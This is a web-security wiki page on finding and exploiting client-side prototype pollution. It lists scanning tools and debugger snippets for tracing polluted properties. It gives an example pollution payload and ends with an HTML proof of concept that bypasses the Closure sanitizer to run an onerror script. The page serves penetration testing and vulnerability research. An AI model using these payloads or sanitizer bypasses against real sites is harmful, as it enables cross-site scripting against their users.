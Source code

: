 ```yaml
---
layout: page
title: Client Side Prototype Pollution
date: 2025-01-04 10:14:00-0400
description:
tags:
categories: [hacking pentesting-web deserialization nodejs-proto-prototype-pollution]
discus_comments: true
related_posts: false
toc:
  sidebar: left
---
```


# Client Side Prototype Pollution

## Discovering using Automatic tools

The tools [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **and** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) can be used to **find prototype pollution vulnerabilities**.

Moreover, you could also use the **browser extension** [**PPScan**](https://github.com/msrkp/PPScan) to **automatically** **scan** the **pages** you **access** for prototype pollution vulnerabilities.

### Debugging where a property is used <a href="#id-5530" id="id-5530"></a>

```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype, "potentialGadget", {
  __proto__: null,
  get() {
    console.trace();
    return "test";
  },
});
```

### Finding the root cause of Prototype Pollution <a href="#id-5530" id="id-5530"></a>

Once a prototype pollution vulnerability has been identified by any of the tools, and if the code is not overly complex, you might find the vulnerability by searching for keywords such as `location.hash`, `decodeURIComponent`, or `location.search` in the Chrome Developer Tools. This approach allows you to pinpoint the vulnerable section of the JavaScript code.

For larger and more complex codebases, a straightforward method to discover the vulnerable code involves the following steps:

1. Use a tool to identify a vulnerability and obtain a payload designed to set a property in the constructor. An example provided by ppmap might look like: `constructor[prototype][ppmap]=reserved`.
2. Set a breakpoint at the first line of JavaScript code that will execute on the page. Refresh the page with the payload, pausing the execution at this breakpoint.
3. While the JavaScript execution is paused, execute the following script in the JS console. This script will signal when the 'ppmap' property is created, aiding in locating its origin:

```javascript
function debugAccess(obj, prop, debugGet = true) {
  var origValue = obj[prop];

  Object.defineProperty(obj, prop, {
    get: function () {
      if (debugGet) debugger;
      return origValue;
    },
    set: function (val) {
      debugger;
      origValue = val;
    },
  });
}

debugAccess(Object.prototype, "ppmap");
```

4. Navigate back to the **Sources** tab and select “Resume script execution”. The JavaScript will continue executing, and the 'ppmap' property will be polluted as expected. Utilizing the provided snippet facilitates the identification of the exact location where the 'ppmap' property is polluted. By examining the **Call Stack**, different stacks where the pollution occurred can be observed.

When deciding which stack to investigate, it is often useful to target stacks associated with JavaScript library files, as prototype pollution frequently occurs within these libraries. Identify the relevant stack by examining its attachment to library files (visible on the right side, similar to an image provided for guidance). In scenarios with multiple stacks, such as those on lines 4 and 6, the logical choice is the stack on line 4, as it represents the initial occurrence of pollution and thereby the root cause of the vulnerability. Clicking on the stack will direct you to the vulnerable code.

![https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Finding Script Gadgets

The gadget is the **code that will be abused once a PP vulnerability is discovered**.

If the application is simple, we can **search** for **keywords** like **`srcdoc/innerHTML/iframe/createElement`** and review the source code and check if it l**eads to javascript execution**. Sometimes, mentioned techniques might not find gadgets at all. In that case, pure source code review reveals some nice gadgets like the below example.

### Example Finding PP gadget in Mithil library code

Check this writeup: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Recompilation of payloads for vulnerable libraries

- [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
- [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## HTML Sanitizers bypass via PP

[**This research**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) shows PP gadgets to use to **bypass the sanizations** provided by some HTML sanitizers libraries:

- **sanitize-html**

<figure><img src="../../../images/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

- **dompurify**

<figure><img src="../../../images/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

- **Closure**

```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);

  document.body.append(node);
</script>
```

## References

- [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
- [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
- [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
